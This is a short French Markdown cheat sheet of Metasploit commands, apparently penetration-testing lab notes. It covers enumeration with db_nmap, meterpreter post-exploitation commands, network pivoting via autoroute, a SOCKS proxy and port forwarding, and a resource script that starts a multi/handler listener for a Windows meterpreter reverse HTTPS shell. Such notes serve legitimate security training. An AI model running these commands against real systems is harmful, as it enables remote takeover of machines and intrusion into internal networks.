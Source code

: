 # Énumération
## Pre
nmap
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
db_nmap -p- 192.168.50.202
hosts
services
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
## post
meterpreter
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
sysinfo
getuid
ps
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

# Pivot
lister interfaces et utiliser route
module multi/manage/autoroute
créer un proxy SOCKS auxiliary/server/socks_proxy

## meterpreter
port forward dans une sessions 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
portfwd add -l 3389 -p 3389 -r 172.16.5.200
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

# Script
liste de commandes comme

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
use exploit/multi/handler
set payload windows/meterpreter_reverse_https
set lhost 192.168.45.196
set lport 443
set autorunscript post/windows/manage/migrate
set exitonsession false
run -z -j
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

utiliser 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
sudo msfconsole -r listener.rc
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
 pour lancer avec script
Peut aussi être en ruby
plusieurs disponible dans /usr/share/metasploit-framework/scripts/resource
scripts utilisent contexte globale setg et unsetg

